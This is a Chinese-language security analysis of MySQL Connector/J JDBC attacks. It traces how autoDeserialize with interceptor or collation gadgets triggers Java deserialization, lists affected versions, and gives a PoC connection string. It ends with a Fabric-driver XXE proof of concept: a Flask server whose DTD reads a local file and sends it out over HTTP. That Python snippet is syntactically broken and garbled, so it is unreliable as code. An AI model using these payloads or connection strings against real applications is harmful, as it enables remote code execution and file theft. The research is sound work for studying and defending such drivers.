




## deserialize_attack_analysis

### 原理

#### POC

```java
String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
```

#### 关键属性

> **queryInterceptors:**一个逗号分割的Class列表（实现了com.mysql.cj.interceptors.QueryInterceptor接口的Class），在Query”之间”进行执行来影响结果。（效果上来看是在Query执行前后各插入一次操作）
>
> **statementInterceptors**:和上面的拦截器作用一致，实现了com.mysql.jdbc.StatementInterceptor接口的Class
>
> 到底应该使用哪一个属性，我们可以在对应版本的`com.mysql.jdbc.ConnectionPropertiesImpl`类中搜索，如果存在，就是存在的那个属性
>
> **autoDeserialize:**自动检测与反序列化存在BLOB字段中的对象。

#### getObject方法的寻找

我们可以关注到`mysql-connnector-java-xxx.jar`包中存在有`ResultSetImpl.getObject()`方法

当然，同样的，在不同的版本下的位置不同，我这里使用的`5.1.48`版本，他的位置在`com.mysql.jdbc.ResultSetImpl`类中



首先他会判断类型，如果是`BIT`类型，就会调用`getObjectDeserializingIfNeeded`方法，跟进



之后他首先会判断`field`是否是`Binary`或者`Blob`

> BLOB (binary large object)，二进制大对象，是一个可以存储二进制文件的容器。在计算机中，BLOB常常是数据库中用来存储二进制文件的字段类型

之后取出对应的字节数，并且判断是否开启了`autoDeserialize`, 如果开启了，将会进入if语句继续判断前两个字节是否为`-84` `-19`这是序列化字符串的标志，hex分别为`AC ED`, 如果满足条件，就会调用对应的`readObject`方法进行反序列化

所以不难发现，如果我们能够控制需要反序列化的数据，就能够进行反序列化漏洞的利用

#### ServerStatusDiffInterceptor拦截器的妙用

我们可以关注到`com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor`这个类，在其中的`populateMapWithSessionStatusValues`方法中，会调用`Util.resultSetToMap(toPopulate, rs);`方法，进而调用了`java.sql.ResultSet.getObject`方法，形成利用链

```java
//populateMapWithSessionStatusValues
private void populateMapWithSessionStatusValues(Connection connection, Map<String, String> toPopulate) throws SQLException {
    java.sql.Statement stmt = null;
    java.sql.ResultSet rs = null;

    try {
        toPopulate.clear();

        stmt = connection.createStatement();
        rs = stmt.executeQuery("SHOW SESSION STATUS");
        Util.resultSetToMap(toPopulate, rs); //调用getObject方法
    } finally {
        if (rs != null) {
            rs.close();
        }

        if (stmt != null) {
            stmt.close();
        }
    }
}
```

```java
//Util.resultSetToMap
public static void resultSetToMap(Map mappedValues, java.sql.ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
```

同样通过idea的`find Usages`方法找到在`postProcess`方法中调用了`populateMapWithSessionStatusValues`

```java
public ResultSetInternalMethods postProcess(String sql, Statement interceptedStatement, ResultSetInternalMethods originalResultSet, Connection connection)
        throws SQLException {

    if (connection.versionMeetsMinimum(5, 0, 2)) {
        //调用
        populateMapWithSessionStatusValues(connection, this.postExecuteValues);

        connection.getLog().logInfo("Server status change for statement:\n" + Util.calculateDifferences(this.preExecuteValues, this.postExecuteValues));
    }

    return null; // we don't actually modify a result set

}
```

同样在`preProcess`方法中也调用了

在调用链中也可以得到

```java
populateMapWithSessionStatusValues:61, ServerStatusDiffInterceptor (com.mysql.jdbc.interceptors)
preProcess:84, ServerStatusDiffInterceptor (com.mysql.jdbc.interceptors)
preProcess:54, V1toV2StatementInterceptorAdapter (com.mysql.jdbc)
preProcess:65, NoSubInterceptorWrapper (com.mysql.jdbc)
invokeStatementInterceptorsPre:2824, MysqlIO (com.mysql.jdbc)
sqlQueryDirect:2580, MysqlIO (com.mysql.jdbc)
execSQL:2465, ConnectionImpl (com.mysql.jdbc)
execSQL:2439, ConnectionImpl (com.mysql.jdbc)
executeQuery:1365, StatementImpl (com.mysql.jdbc)
loadServerVariables:3775, ConnectionImpl (com.mysql.jdbc)
initializePropsFromServer:3196, ConnectionImpl (com.mysql.jdbc)
connectOneTryOnly:2233, ConnectionImpl (com.mysql.jdbc)
createNewIO:2015, ConnectionImpl (com.mysql.jdbc)
<init>:768, ConnectionImpl (com.mysql.jdbc)
<init>:47, JDBC4Connection (com.mysql.jdbc)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
handleNewInstance:425, Util (com.mysql.jdbc)
getInstance:385, ConnectionImpl (com.mysql.jdbc)
connect:323, NonRegisteringDriver (com.mysql.jdbc)
getConnection:664, DriverManager (java.sql)
getConnection:208, DriverManager (java.sql)
main:15, Test (pers.xstream)
```

在`com.mysql.jdbc.ConnectImpl#loadServerVariables`方法存在需要执行一段`SHOW VARIABLES`的sql语句

```java
results = stmt.executeQuery(versionComment + "SHOW VARIABLES");
```

因为在这个版本中的`mysql-connector`使用的是`statementInterceptors`作为在执行SQL语句的拦截器类，所以在`com.mysql.jdbc.MysqlIO#sqlQueryDirect`方法中存在对这个属性值是否存在的判断，如果存在，就调用其中的拦截处理逻辑，不存在就直接放行


进而调用了对应`Interceptor`的`preProcess`方法，如果我们在JDBC连接串中使用的是`ServerStatusDiffInterceptor`作为拦截器，那么就会调用他的`preProcess`方法，进而形成了利用链

**注意**：在`populateMapWithSessionStatusValues`方法中存在一个执行`SHOW SESSION STATUS`获取结果的逻辑

```java
rs = stmt.executeQuery("SHOW SESSION STATUS");
```

我们在恶意Mysql服务端进行处理的时候就可以通过进行`SHOW SESSION STATUS`或者其他版本的其他标志作为标志，返回我们构造的恶意payload, 使得在后面调用了`UtilresultSetToMap`进行getObject的调用

在`ResultSetImpl#getObject`方法中对mysql服务端返回的数据进行判断，这里是`Types.LONGVARBINARY`类型(长二进制数据), 再然后就是前面提到了`getObject`方法寻找的部分了

#### detectCustomCollations的妙用

在这里我们将环境中的`mysql-connector-java`包改为`5.1.29`版本

来自`chybeta`佬的研究，我们可以关注到`ConnectionImpl#buildCollationMapping`中存在有`Util.resultSetToMap`的调用，能够形成前面所描述的利用链



首先看一下调用栈

```java
buildCollationMapping:1004, ConnectionImpl (com.mysql.jdbc)
initializePropsFromServer:3617, ConnectionImpl (com.mysql.jdbc)
connectOneTryOnly:2550, ConnectionImpl (com.mysql.jdbc)
createNewIO:2320, ConnectionImpl (com.mysql.jdbc)
<init>:834, ConnectionImpl (com.mysql.jdbc)
<init>:46, JDBC4Connection (com.mysql.jdbc)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
handleNewInstance:411, Util (com.mysql.jdbc)
getInstance:416, ConnectionImpl (com.mysql.jdbc)
connect:347, NonRegisteringDriver (com.mysql.jdbc)
getConnection:664, DriverManager (java.sql)
getConnection:208, DriverManager (java.sql)
main:16, Test (pers.xstream)
```

从上面的截图我们可以看到有几个判断条件

1. 需要满足服务端版本要大于`4.1.0` , 而且`detectCustomCollations`需要为`true `

   ```java
   if (versionMeetsMinimum(4, 1, 0) && getDetectCustomCollations())
   ```

2. 需要满足大于`5.0.0`，在`5.1.28`不存在这个条件

同样这里获取了执行`SHOW COLLATION`命令的结果集，同样可以作为标志返回恶意payload

只要满足上述条件，就只需要将结果集中的字段 2 或者 3 封装我们的序列化数据就可以成功利用了

### 版本区分

#### ServerStatusDiffInterceptor

- `5.1.11-6.0.6`使用的是`statementInterceptors`属性，而`8.0`以上使用`queryInterceptors`, 具体属性可以在`ConnectionPropertiesImpl`类中搜索

- `5.1.11`以下，不能通过这种方式利用，因为在`5.1.10`中`Interceptors`的初始化过程在漏洞利用过程之后，将会在利用中，因为找不到`interceptor`而不能够触发成功
  https://github.com/mysql/mysql-connector-j/compare/5.1.10...5.1.11#diff-4c9979a09004e7c2d55d663702c47c61e002e351856b83cda37414a15fb47dcaL779-L785

  

- `5.0.x`没有这个拦截器

#### detectCustomCollations

- `8.0.x`不存在getObject方法的调用

- `6.x`能够利用，因为他在`com.mysql.cj.jdbc.ConnectionImpl`中调用了`ResultSetUtil.resultSetToMap`和上面的功能类似，且没有版本判断
  

- 从`5.1.29`开始启用`detectCustomCollations`属性，但是直到`5.1.49`做出了更改导致不能使用
  https://github.com/mysql/mysql-connector-j/compare/5.1.48...5.1.49#diff-4c9979a09004e7c2d55d663702c47c61e002e351856b83cda37414a15fb47dcaL911-L914
  

  在这里值得注意的是，在`5.1.41`做出了更改，不再调用`Util.resultSetToMap`方法，进而调用getObject方法，改为了直接调用`getObject`方法
  https://github.com/mysql/mysql-connector-j/compare/5.1.40...5.1.41#diff-4c9979a09004e7c2d55d663702c47c61e002e351856b83cda37414a15fb47dcaL944-R936

- 在`5.1.19 - 5.1.28`过程中，不存在`detectCustomCollations`属性的判断，但是仍然可以调用
  https://github.com/mysql/mysql-connector-j/compare/5.1.28...5.1.29#diff-4c9979a09004e7c2d55d663702c47c61e002e351856b83cda37414a15fb47dcaL986-L1005

- `5.1.18`以下没有使用`getObject`方法的调用

### 可用连接串

直接对`fnmsd`的研究稍作修改


将其中5.1.41不可用改成`5.1.29`以上只有`5.1.49`不可用，且`6.x`系列都可以使用

## XXE_attack_analysis

### 原理

在mysql connector 5.1.48版本中，注册了两个驱动。除了常见的驱动com.mysql.cj.jdbc.Driver之外，就是这个名为com.mysql.fabric.jdbc.FabricMySQLDriver的驱动。

MySQL Fabric 是一个管理 MySQL 服务器场的系统。MySQL Fabric 提供了一个可扩展且易于使用的系统，用于管理 MySQL 部署以实现分片和高可用性。

Litch1研究了FabricMySQLDriver的源码，发现如果连接url以jdbc:mysql:fabric://开头，程序就会进入Fabric流程逻辑。

### POC

```python
from flask import Flask
app = Flask(__name__) 
@app.route('/xxe.dtd', methods=['GET', 'POST'])
def xxe_oob():
return '''<!ENTITY % aaaa SYSTEM "fiLe:///tmp/data">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM
'http://127,0.0.1:5000/xxe?data=%aaaa;'>"> %demo;'''
@app.route('/', methods=['GET', 'POST’])
def dtd():
return '''<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM "http://127.0.0.1:5000/xxe.dtd"> %xd;]>
<root>&bbbb;</root>'''
if __name__ == '__main__'
app.run()
```

```java
public static void main(String[] args) throws Exception{
	String url = "jdbc:mysql:fabric://127.0.0.1:5000";
	Connection conn = DriverManager.getConnection(url);
}
```

